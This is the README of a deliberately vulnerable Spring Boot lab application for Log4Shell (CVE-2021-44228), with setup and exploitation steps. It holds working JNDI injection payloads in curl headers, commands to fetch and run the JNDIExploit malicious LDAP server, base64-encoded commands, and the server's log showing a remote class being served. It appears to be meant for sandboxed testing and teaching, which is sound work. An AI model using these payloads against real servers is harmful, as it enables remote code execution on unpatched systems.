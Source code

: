 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228,
nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

### Without docker

    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

And to send the exploit:

    curl 127.0.0.1:8080 -H 'X-Api-Version: <PAYLOAD>'

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/)
. **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (
presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in
front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container
  running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

## TL;DR POC/easy start

### Start vulnerable target

```bash
git clone https://github.com/HenryFBP/log4shell-vulnerable-app
cd log4shell-vulnerable-app
gradle clean bootJar --no-daemon
java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar
```

### Start attacker's LDAP server

```bash
git clone https://github.com/HenryFBP/JNDI-Exploit-Server
cd JNDI-Exploit-Server
# mvn clean package # disabled due to issues with dependencies.
java -jar .\etc\JNDIExploit-1.2-SNAPSHOT-from-black9-Log4shell_JNDIExploit.jar -i localhost -p 8081
```
### Send payload to vulnerable target (need GNU curl...)

```bash
choco install -y curl
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://localhost:1389/Basic/Command/Base64/Y2FsYy5leGU=}'
```
